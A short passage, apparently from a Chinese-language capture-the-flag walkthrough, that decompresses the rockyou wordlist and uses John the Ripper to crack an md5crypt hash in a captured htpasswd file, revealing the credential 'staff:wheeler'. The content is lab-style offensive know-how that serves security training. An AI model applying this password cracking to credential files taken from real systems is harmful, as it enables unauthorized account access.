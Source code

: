 ![](<../../.gitbook/assets/image (28) (1) (1) (1) (1) (1) (1) (1).png>)

使用`john`爆破密码，需要先解压rockyou字典。

`gzip -d /usr/share/wordlists/rockyou.txt.gz`

```
┌──(root💀kali)-[/usr/share/wordlists]
└─# john --wordlist:/usr/share/wordlists/rockyou.txt /tmp/htpasswd 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
wheeler          (staff)
1g 0:00:00:00 DONE (2021-12-27 03:10) 6.250g/s 82200p/s 82200c/s 82200C/s guess1..justin01
Use the "--show" option to display all of the cracked passwords reliably
Session completed
                                                                                                                                                                                                               
┌──(root💀kali)-[/usr/share/wordlists]
└─# john --show /tmp/htpasswd                                
staff:wheeler

1 password hash cracked, 0 left
                                 
```
